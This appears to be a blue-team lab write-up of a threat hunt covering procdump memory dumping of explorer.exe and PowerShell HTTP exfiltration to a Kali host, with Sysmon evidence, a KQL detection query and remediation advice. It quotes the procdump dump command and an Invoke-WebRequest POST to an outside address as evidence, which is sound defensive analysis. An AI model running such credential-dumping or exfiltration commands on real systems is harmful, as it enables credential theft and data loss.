




# 🔲 Investigation Case
# Threat Hunting: OS Credential Dumping & Data Exfiltration (T1003 & T1048)
**Analyst:** Magdalena Domínguez  
**Date:** 17 September 2026  
**Status:** Completed  


---

## ▪️ 1. Executive Summary

This investigation documents a multi-stage attack originating on the endpoint `Azul_Fifty`. The adversary attempted to perform OS Credential Dumping using the Sysinternals `procdump` utility. After an initial failure to dump the `lsass.exe` process, the adversary successfully pivoted to extract the memory of `explorer.exe`. 

Following the successful memory dump, the adversary utilized native Windows binaries (Living-Off-The-Land) to exfiltrate the acquired `.dmp` file via an outbound HTTP connection to a known offensive host. The activity represents a complete compromise chain from credential access preparation to data exfiltration.

**Verdict:** True Positive.  
**Action Required:** Immediate network containment of `Azul_Fifty`, credential rotation for the affected user, and escalation to the Incident Response team.

---

## ▪️ 2. MITRE ATT&CK Mapping

| Tactic | Technique | Description |
| :--- | :--- | :--- |
| **Credential Access** | [T1003.001 - OS Credential Dumping: LSASS Memory](https://attack.mitre.org/techniques/T1003/001/) | Attempted memory dump of `lsass.exe` using Procdump. |
| **Credential Access** | [T1003 - OS Credential Dumping (Secondary Target)](https://attack.mitre.org/techniques/T1003/) | Successful memory dump of `explorer.exe` to bypass LSASS protections. |
| **Exfiltration** | [T1048 - Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048/) | Exfiltration of the dumped file via HTTP POST using PowerShell. |

---

## ▪️3. Triage & Evidence Analysis

The investigation followed a chronological analysis of Sysmon telemetry and host-based artifacts to reconstruct the attack chain.

### 🔻 Phase 1: Credential Access Attempt (Execution)
The adversary initially executed `procdump.exe` targeting the Local Security Authority Subsystem Service (LSASS). When this failed, they pivoted to target the `explorer.exe` process, a common secondary target for credential harvesting.

**Evidence: Sysmon Event ID 1 (Process Create)**
*   **Timestamp:** `2026-09-17 00:02:58`
*   **Image:** `C:\SOC-Lab\procdump64.exe` *(Note: The 64-bit version was automatically invoked to interact with the 64-bit explorer process).*
*   **Command Line:** `.\procdump.exe -accepteula -ma explorer.exe explorer_dump.dmp`
*   **User Context:** `Azul_Fifty\magda`


> *Figure 1: Sysmon Event ID 1 capturing the execution of Procdump targeting explorer.exe.*


### 🔻 Phase 2: Memory Dump Creation Validation
Following the execution, Sysmon telemetry was analysed to confirm if the memory dump was successfully written to disk. Event ID 11 confirms the successful extraction of the process memory, indicating a bypass of initial credential dumping restrictions.

**Evidence: Sysmon Event ID 11 (File Create)**
*   **Timestamp (UTC):** `2026-09-17 00:02:58.946`
*   **Target File Created:** `C:\SOC-Lab\explorer_dump.dmp`
*   **Process Executable:** `C:\SOC-Lab\procdump64.exe`


> *Figure 2: Sysmon Event ID 11 confirming the successful creation of the memory dump file on disk.*

*Note on Telemetry Gaps: Sysmon Event ID 10 (Process Access) was not generated during the dumping of explorer.exe due to standard Sysmon configuration exclusions designed to reduce log fatigue. However, the attack chain was successfully reconstructed by correlating Event IDs 1 and 11.*


### 🔻 Phase 3: Data Exfiltration
Forensic analysis of the PowerShell history (via the `PSReadLine` hidden history file) revealed the execution of `Invoke-WebRequest` to send data via HTTP POST to an external Command and Control (C2) server.

**PSReadLine Artifact:**
`Invoke-WebRequest -Uri http://192.168.1.8:8080 -Method Post -Body "Exfiltracion de datos" -UseBasicParsing`

Correlation with Sysmon Event ID 3 confirmed the outgoing connection from the PowerShell process to an external host identified as `kali.broadband`.

**Evidence: Sysmon Event ID 3 (Network Connection)**
*   **Timestamp:** `2026-09-17 00:15:58.832 (UTC)`
*   **Source Image:** `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`
*   **Destination IP / Port:** `192.168.1.8:8080`
*   **Destination Hostname:** `kali.broadband`


> *Figure 3: Sysmon Event ID 3 confirming the outbound network connection to the offensive Kali Linux host over port 8080.*

---

## ▪️4. Threat Hunting Logic (KQL)
To proactively detect this attack chain in Microsoft Sentinel or Defender, the following Kusto Query Language (KQL) logic correlates the execution of `procdump` with subsequent outbound network connections from PowerShell within a 15-minute window.

```q
// 1. Detect Procdump execution targeting critical processes (Sysmon Event ID 1)
let DumpExecution = Sysmon_Event_1_Table
| where Image has_any ("procdump.exe", "procdump64.exe")
| where CommandLine has_any ("lsass.exe", "explorer.exe", "winlogon.exe")
| project DumpTime = TimeGenerated, Computer, User, DumpProcessId = ProcessId;
//
// 2. Correlate with PowerShell outbound connections (Sysmon Event ID 3)
Sysmon_Event_3_Table
| where Image endswith "powershell.exe"
| where DestinationPort in (80, 443, 8080)
| join kind=inner (DumpExecution) on Computer, User
// 3. Ensure the exfiltration attempt happened shortly after the memory dump
| where TimeGenerated between (DumpTime .. (DumpTime + 15m))
| project AttackTime = TimeGenerated, Computer, User, DumpTime, DestinationIp, DestinationPort
```


> *Figure 4: KQL query execution confirming the correlation between the credential dumping attempt and the subsequent PowerShell exfiltration.*

---

## ▪️ 5. Conclusion & Response Actions

The detected activity confirms a successful credential dumping and exfiltration operation. The adversary successfully bypassed endpoint defences, dumped the memory of `explorer.exe`, and established an outbound HTTP connection to exfiltrate the payload.

**Recommended Remediation & Detection Tuning:**

1.  **Network Controls:** Implement strict egress filtering to block outbound connections on non-standard HTTP ports (e.g., 8080) from standard user endpoints to untrusted internal or external subnets.
2.  **Endpoint Controls (EDR):** Enhance detection rules to trigger high-severity alerts when `procdump.exe` or `procdump64.exe` are executed targeting critical system processes (including `explorer.exe` and `winlogon.exe`, not just `lsass.exe`).
3.  **PowerShell Visibility:** Enforce PowerShell Constrained Language Mode to restrict the use of web cmdlets (`Invoke-WebRequest`) by non-administrative accounts, mitigating script-based data exfiltration.

---

## ▪️ 6. Automated Incident Response (SOAR)
To reduce alert fatigue and accelerate L1 triage, a Microsoft Sentinel SOAR playbook (Logic App) was engineered to automatically respond to this specific threat detection. 

When the KQL analytic rule triggers, the playbook extracts the incident parameters and automatically dispatches an enriched notification to the SOC analysts, ensuring immediate visibility and prompting rapid containment of the compromised endpoint.

**Playbook Workflow:** `Sentinel Incident Trigger` ➔ `Extract Dynamic Variables` ➔ `Automated Triage Email (Gmail API)`


> *Figure 5: Azure Logic App designer showing the dynamic content injection for the automated SOC alert.*


## ▪️7. Author 

**Magda Dominguez**  
*SOC Analyst (L1-ready) Bristol, UK*  
Focused on Blue Team operations, detection engineering and log analysis.